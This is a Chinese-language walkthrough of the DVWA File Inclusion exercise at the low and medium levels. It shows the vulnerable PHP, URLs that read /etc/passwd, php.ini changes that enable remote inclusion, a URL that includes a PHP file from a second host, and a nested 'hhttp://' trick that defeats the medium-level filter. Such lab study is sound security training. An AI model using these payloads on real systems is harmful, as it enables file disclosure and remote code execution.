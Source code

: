 <center>File Inclusion文件包含</center>





[toc]







## File Inclusion文件包含

> 文件包含







### 1.low

> 低级
>
> 代码

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

> 本地文件 文件包含，看系统文件

```shell
# windows
http://192.168.0.111:8000/vulnerabilities/fi/?page=D:\\a.txt

# linux
http://192.168.0.111:8000/vulnerabilities/fi/?page=/etc/passwd
```

> 远程文件包含。 没有红色提示了。

```shell
php.ini allow_url_include 打开这个远程文件

# 进入docker环境
docker exec -it DockerId bash

# 修改php.ini
# 使用 sed 命令直接替换配置 查看php.ini路径
sudo sed -i 's/allow_url_include = Off/allow_url_include = On/g' /etc/php/7.0/apache2/php.ini

# 重启 Apache 服务
sudo systemctl restart apache2 / sudo service apache2 restart
```

```shell
# linux  两个主机之间可以通信。
http://192.168.0.111:8000/vulnerabilities/fi/?page=http://192.168.0.110:3000/a.php
```







### 2. medium

> 中级
>
> 代码

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
```

```shell
# 过滤了http https 我们直接多写几个 http://
http://192.168.0.111:8000/vulnerabilities/fi/?page=hhttp://ttp://192.168.0.110:3000/a.txt
```

> 防护：多过滤几次`http://`